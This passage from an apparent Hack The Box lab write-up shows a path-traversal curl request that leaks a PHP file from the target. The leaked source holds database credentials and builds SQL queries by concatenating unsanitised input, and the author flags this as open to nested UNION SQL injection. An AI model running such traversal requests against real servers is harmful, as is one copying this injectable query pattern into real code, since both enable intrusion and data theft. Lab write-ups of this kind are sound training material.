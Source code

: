 There are two paths to `index.html` and both `index.html` are different in length. Let's read `index.php` to verify the query structure.

```
# curl -k https://www.nestedflanders.htb/dev../html/index.php
```

```php
<?php
$servername = "localhost";
$username = "nestedflanders";
$password = "1036913cf7d38d4ea4f79b050f171e9fbf3f5e";
$db = "neddy";
$conn = new mysqli($servername, $username, $password, $db);
$debug = False;

include "6fb17817efb4131ae4ae1acae0f7fd48.php";

function getTplFromID($conn) {
	global $debug;
	$valid_ids = array (25,465,587);
	if ( (array_key_exists('id', $_GET)) && (intval($_GET['id']) == $_GET['id']) && (in_array(intval($_GET['id']),$valid_ids)) ) {
			$sql = "SELECT name FROM idname where id = '".$_GET['id']."'";
	} else {
		$sql = "SELECT name FROM idname where id = '25'";
	}
	if ($debug) { echo "sqltpl: $sql<br>\n"; }

	$result = $conn->query($sql);
	if ($result->num_rows > 0) {
	while($row = $result->fetch_assoc()) {
		$ret = $row['name'];
	}
	} else {
		$ret = 'main';
	}
	if ($debug) { echo "rettpl: $ret<br>\n"; }
	return $ret;
}

function getPathFromTpl($conn,$tpl) {
	global $debug;
	$sql = "SELECT path from filepath where name = '".$tpl."'";
	if ($debug) { echo "sqlpath: $sql<br>\n"; }
	$result = $conn->query($sql);
	if ($result->num_rows > 0) {
		while($row = $result->fetch_assoc()) {
			$ret = $row['path'];
		}
	}
	if ($debug) { echo "retpath: $ret<br>\n"; }
	return $ret;
}

$tpl = getTplFromID($conn);
$inc = getPathFromTpl($conn,$tpl);
?>
```

The query structure consists of two SQL queries after all, which allows for nesting of UNION-based SQL injection.

[1]: https://www.hackthebox.eu/home/machines/profile/184
[2]: https://www.hackthebox.eu/home/users/profile/8292
[3]: https://www.hackthebox.eu/
